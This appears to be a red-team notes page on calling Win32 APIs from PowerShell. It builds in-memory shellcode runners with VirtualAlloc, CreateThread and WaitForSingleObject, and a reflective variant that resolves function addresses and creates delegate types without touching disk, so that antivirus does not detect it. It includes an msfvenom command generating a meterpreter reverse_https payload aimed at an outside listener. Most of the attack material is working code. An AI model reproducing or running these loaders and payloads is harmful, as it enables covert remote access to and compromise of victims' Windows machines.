


# Calling Win32 APIs form PS

Powershell cannot natively interact winth the WinAPIs, but with the help of .NET framework we can use C# in our powershell session.

But to use WinAPIS we need to translate the C data types to C# data types.

## WinAPIs in C#

The easiest way to tranlate that is through `pinvoke.net`.

* [http://www.pinvoke.net/](http://www.pinvoke.net/)

From now on, we'll use MessaboxA as an example:

```c#
int MessageBox(
  HWND    hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT    uType
);
```

To translate this we can search for `pinvoke User32 messagebox`:

```c#
[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);
```

To use this, we'll need to add a bit of code to import the System and `System.Runtime.InteropServices` namespaces containing the pinvoke APIs.


```c#
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text, 
        String caption, int options);
}
```

## Wrapping to PowerShell

Now that we our c# code, with `Add-Type` will force the .Net framework to compile and create an object containing the structures.

>**Note**: We use `Add-Type` to compile and run .Net at runtime, which temporarily **writes source and compiled code to disk** with a random name, which is detectable for AV.




```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text, 
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

Another example with `GetDriveType`:

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;


public class Kernel32{
    [DllImport("kernel32.dll")]
    public static extern int GetDriveType([MarshalAs(UnmanagedType.LPStr)] string lpRootPathName);
}
"@

Add-Type $Kernel32
[Kernel32]::GetDriveType("C:\")
```

# Shellcode Runner

Once we know how to translate and use WinAPIs in C# and indeed in PS, we can just use `VirtualAlloc`, `CreateThread` and `WaitForSingleObject` to execute our payload. Instead of using `RtlMoveMermoy` we can use `[System.Runtime.InteropServices.Marshal]::Copy` to copy our payload to the allocated memory.

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f ps1
```

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
[Byte[]] $buf = 0xfc,0x48...
$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc([IntPtr]::Zero,$size,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$addr,$size)
$thandle = [Kernel32]::CreateThread(0,0,$addr,0,0,0)
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```


# Reflective PowerShell

Our goal is to create the .NET assembly in memory instead of writing code and compiling it.

## Finding the addresses in UnsafeNativeMethods

To this task we need to dynamic lookup of function addresses, the OS provides two special Win32 APIs:

* `GetModuleHandle`: Obtains a handle to the specified DLL.
* `GetProcAddress`: Will return the function address used as parameter.

Let's start to use `GetAssemblies` to search preloaded assemblies in the PowerShell process. When csharp code needs to directly invoke WinAPIs, it must use the `Unsafe` keyword, and in addition, any functions that are invoked must be declared as static to avoid instantiation.

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Contains('Unsafe')
          }
      } 2> $null
    }
```

This code generate a huge large output, but filtering for `GetModuleHandle` we see differents appearances. On of them is in `Microsoft.Win32.UnsafeNativeMethods`

```
...
TypeName: Microsoft.Win32.UnsafeNativeMethods

Name                             MemberType Definition 
----                             ---------- ---------- 
GetModuleHandle                  Method     static System.IntPtr GetModuleHandle(string modName)
...
GetProcAddress                   Method     static System.IntPtr GetProcAddress(System.IntPtr hModule, string methodName), static System.IntPtr Ge...
...
```

Now we need to know which assembly contains these two functions:

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.Location
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
          }
      } 2> $null
    }
```

```
C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System\v4.0_4.0.0.0__b77a5c561934e089\System.dll

GetModuleHandle                  Method     static System.IntPtr GetModuleHandle(string modName)
GetProcAddress                   Method     static System.IntPtr GetProcAddress(System.IntPtr hModule, string methodName), stati....
```

That reveals that the assembly `System.dll` contains these functions. However, these methods are only intended for internal use by .NET code. This blocks us from calling them directly from PowerShell or C#.

In order to solve this, we mus develop a way that allows us to call it directly.

* Obtain a reference to `System.dll` with `GetType` method:

```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { 
  $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
  
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
```


* Obtain the reference to `GetModuleHandle` function with `GetMethod`:

```powershell
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
```

* Invoke the method to call `GetModulehandle`:

```powershell
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
140723845791744
# To see the value in HEX
[Convert]::ToString(140723845791744, 16)
7ffcd2d70000
```

* Obtain the references to `GetProcAddress` function with `GetMethods`, we need to get all because there are more than one reference, but we just take the first one

```powershell
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
$GetProcAddress = $tmp[0]
```

* Finally search our function:

```powershell
$MessageBoxA = $GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```

Example of final reflective powershell code to obtain the address of `MessageBoxA`:

```powershell
function Resolve-Function {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
$MessageBoxA = Resolve-Function -moduleName "user32.dll" -functionName "MessageBoxA"
$MessageBoxHex = "0x{0:X}" -f $MessageBoxA.ToInt64()
Write-Host $MessageBoxHex
```

## DelegateType reflection

Now that we can resolve addresses of Win32 APIs, we must define the argument types.

We must pair the number of arguments and their associated data types with the resolved function memory address.

This can be done with `GetDelegateForfunctionPointer` method in csharp. Since we can't access to csharp without the `Add-Type` function we need to approach this in a different way.

We are going to create manually an assembly in memory.


* Create a new assembly through the `AssemblyName` class and assign a name such as `ReflectedDelegate`.

```powershell
$MyAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
```

* Configure the access mode, since we want it executable and not saved to disk, we need to use `DefineDynamicAssembly` method.

```powershell
$Domain = [AppDomain]::CurrentDomain
$MyAssemblyBuilder = $Domain.DefineDynamicAssembly($MyAssembly, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
```

* Create the content. The main building block of an assembly is a module.

```powershell
$MyModuleBuilder = $MyAssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
```

* Create a custom type or delegate type with `DefineType`.

```powershell
$MyTypeBuilder = $MyModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
```

* Create the constructor. The first argument contains the attributes of the constructor itself, defines as public, referenced by name and signature. The second argument is the calling convention, we use the sandard. The last argument is the definition of the parameter types, in that case MessageBoxA has `(IntPtr, String, String, Int)`.

```powershell
$MyConstructorBuilder = $MyTypeBuilder.DefineConstructor(
  'RTSpecialName, HideBySig, Public', 
    [System.Reflection.CallingConventions]::Standard, 
      @([IntPtr], [String], [String], [int]))
```

* Configure de constructor. Before call it we need to configure some flags.

```powershell
$MyConstructorBuilder.SetImplementationFlags('Runtime, Managed')
```

* Define the `Invoke` method with `DefineMethod`. It takes 4 arguments, the first one is the name, the second one the attributes such as public, hidebysig, the third argument is the return type (`MessageBox` is `[int]`) and the fourth argument is an array of argument types

```powershell
$MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke', 
  'Public, HideBySig, NewSlot, Virtual', 
    [int], 
      @([IntPtr], [String], [String], [int]))
```

* To instance the delegate type we call `CreateType`.

```powershell
$MyDelegateType = $MyTypeBuilder.CreateType()
```

* Finally call `GetDelegateForFunctionPointer` with the resolved memory address of `MessageBoxA`:

```powershell
$MyFunction = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($MessageBoxA, $MyDelegateType)
```


The final code of calling MessageBoxA in a reflected way is the following:

```powershell
function Resolve-Function {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
$MessageBoxA = Resolve-Function -moduleName "user32.dll" -functionName "MessageBoxA"

$MyAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
$Domain = [AppDomain]::CurrentDomain
$MyAssemblyBuilder = $Domain.DefineDynamicAssembly($MyAssembly, 
  [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
$MyModuleBuilder = $MyAssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
$MyTypeBuilder = $MyModuleBuilder.DefineType('MyDelegateType', 
  'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

$MyConstructorBuilder = $MyTypeBuilder.DefineConstructor(
  'RTSpecialName, HideBySig, Public', 
    [System.Reflection.CallingConventions]::Standard, 
      @([IntPtr], [String], [String], [int]))
$MyConstructorBuilder.SetImplementationFlags('Runtime, Managed')
$MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke', 
  'Public, HideBySig, NewSlot, Virtual', 
    [int], 
      @([IntPtr], [String], [String], [int]))
$MyMethodBuilder.SetImplementationFlags('Runtime, Managed')
$MyDelegateType = $MyTypeBuilder.CreateType()

$MyFunction = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($MessageBoxA, $MyDelegateType)
$MyFunction.Invoke([IntPtr]::Zero,"Reflective Powershell!!","rtnotes",0)
```



> **Note**: We can use `WinExec` WinAPI to launch applications.

To improve the code's efficiency and since we are going to call more than one function such as `VirtualAlloc`, `CreateThread` and `WaitForSingleObject`, we will put the repeated code into functions.

```powershell
function Get-DelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
$MessageBoxA = Get-DelegateType @([IntPtr], [String], [String], [int]) ([int])

```
### All together

Example of an optimizated reflective powershell call to `MessageBoxA`.
```powershell
function Resolve-Function {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
function Get-DelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
$MessageBoxAAddr = Resolve-Function -moduleName "user32.dll" -functionName "MessageBoxA"
$MessageBoxADelegateType = Get-DelegateType @([IntPtr], [String], [String], [int]) ([int])
$MessageBoxA = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($MessageBoxAAddr, $MessageBoxADelegateType)
$MessageBoxA.Invoke([IntPtr]::Zero,"Reflective Powershell!!","rtnotes",0)
```

# Shellcode Runner

Here is the basic shellcode runner using `VirtualAlloc`, `CreateThread` and `WaitForSingleObject`.


```powershell
function Resolve-Function {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
function Get-DelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$MessageBoxAAddr = Resolve-Function -moduleName "user32.dll" -functionName "MessageBoxA"
$MessageBoxADelegateType = Get-DelegateType @([IntPtr], [String], [String], [int]) ([int])
$MessageBoxA = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($MessageBoxAAddr, $MessageBoxADelegateType)
$MessageBoxA.Invoke([IntPtr]::Zero,"Reflective Powershell!!","rtnotes",0)

[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0....
$size = $buf.Length

$VirtualAllocAddr = Resolve-Function -moduleName "kernel32.dll" -functionName "VirtualAlloc"
$VirtualAllocDelegationType = Get-DelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegationType)
$addr = $VirtualAlloc.Invoke([IntPtr]::Zero, $size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$addr,$size)

$CreateThreadAddr = Resolve-Function -moduleName "kernel32.dll" -functionName "CreateThread"
$CreateThreadDelegationType = Get-DelegateType @([UInt32],[Uint32],[IntPtr],[UInt32],[UInt32],[UInt32]) ([UInt32])
$CreateThread = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($CreateThreadAddr, $CreateThreadDelegationType)
$hThread = $CreateThread.Invoke(0,0,$addr,0,0,0)


$WaitForSingleObjectAddr = Resolve-Function -moduleName "kernel32.dll" -functionName "WaitForSingleObject"
$WaitForSingleObjectDelegationType = Get-DelegateType @([IntPtr], [UInt32]) ([UInt32])
$WaitForSingleObject = [System.Runtime.InteropServices.Marshal]::
    GetDelegateForFunctionPointer($WaitForSingleObjectAddr, $WaitForSingleObjectDelegationType)
$WaitForSingleObject.Invoke($hThread, [UInt32]"0xFFFFFFFF")
```